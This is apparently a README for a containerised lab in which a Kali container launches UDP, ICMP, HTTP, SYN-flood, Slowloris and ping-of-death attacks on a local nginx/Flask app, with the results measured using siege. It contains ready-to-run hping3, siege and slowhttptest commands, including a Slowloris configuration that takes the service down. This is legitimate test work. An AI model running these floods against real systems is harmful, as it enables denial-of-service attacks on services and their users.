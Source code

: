 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# App
Is a simple nginx ([image link](https://hub.docker.com/_/nginx)) which proxies request to Flask app that returns 200 "Ok".

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1050 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ siege -d1 -c200 -t120s http://localhost:8080
```
Example normal report
```
Transactions:		       23191 hits
Availability:		      100.00 %
Elapsed time:		      119.27 secs
Data transferred:	        0.04 MB
Response time:		        1.02 secs
Transaction rate:	      194.44 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      198.96
Successful transactions:       23191
Failed transactions:	           0
Longest transaction:	        1.81
Shortest transaction:	        0.09
```

Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* udp flood

This attack doesn't seem to affect our application (possibly because we're not listening to udp ports :D ).
The only thing we can track is increased amount of incomming traffic to nginx container:
![Screenshot from 2022-01-03 18-21-29](https://user-images.githubusercontent.com/19594637/147954476-4faface4-860d-4d0e-b1b2-3bcc42e3a565.png)


* icmp flood

This attack doesn't seem to work on nginx:1.21. Since our `siege` command reports normal results:
```
Transactions:		       65207 hits
Availability:		      100.00 %
Elapsed time:		      119.72 secs
Data transferred:	        0.12 MB
Response time:		        0.37 secs
Transaction rate:	      544.66 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      199.47
Successful transactions:       65207
Failed transactions:	           0
Longest transaction:	        1.40
Shortest transaction:	        0.01
```
We can only observe increase traffic on nginx container:
![Screenshot from 2022-01-03 18-35-30](https://user-images.githubusercontent.com/19594637/147955909-0c201d5c-0cc0-4139-986a-9d0f87fbc552.png)


* http flood

Using one kali linux container the only thing I could achieve is to siginficantly increase response times of the application:
```
Transactions:		       16393 hits
Availability:		      100.00 %
Elapsed time:		      119.19 secs
Data transferred:	        0.03 MB
Response time:		        1.45 secs
Transaction rate:	      137.54 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      198.89
Successful transactions:       16393
Failed transactions:	           0
Longest transaction:	        3.50
Shortest transaction:	        0.01
```
Also we can observe increase CPU and traffic on our nginx container:
![Screenshot from 2022-01-03 18-58-40](https://user-images.githubusercontent.com/19594637/147958096-40632afc-3a05-4c6c-bd23-6d0bdfe4923e.png)


* slowloris attack

Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our siege command results show us that our application was unable to server requests
```
siege aborted due to excessive socket failure; you
can change the failure threshold in $HOME/.siegerc

Transactions:		        2195 hits
Availability:		       64.54 %
Elapsed time:		        9.96 secs
Data transferred:	        0.00 MB
Response time:		        0.81 secs
Transaction rate:	      220.38 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      178.48
Successful transactions:        2195
Failed transactions:	        1206
Longest transaction:	        1.50
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![Screenshot from 2022-01-03 18-11-12](https://user-images.githubusercontent.com/19594637/147953506-abca9fc6-685f-4faf-9e31-4055c1146df2.png)

* syn flood

Doesn't seem to bother our application availability:
```
Lifting the server siege...
Transactions:		       98327 hits
Availability:		      100.00 %
Elapsed time:		      179.49 secs
Data transferred:	        0.19 MB
Response time:		        0.36 secs
Transaction rate:	      547.81 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      199.59
Successful transactions:       98327
Failed transactions:	           0
Longest transaction:	        3.20
Shortest transaction:	        0.00

```
![Screenshot from 2022-01-04 13-53-13](https://user-images.githubusercontent.com/19594637/148055345-17b2e7a6-76ce-4b5a-911d-7f21816a8fa5.png)

* Ping of death

Does not seems to be reproducable with modern software
```
fping: data size 65510 not valid, must be lower than 65488
```

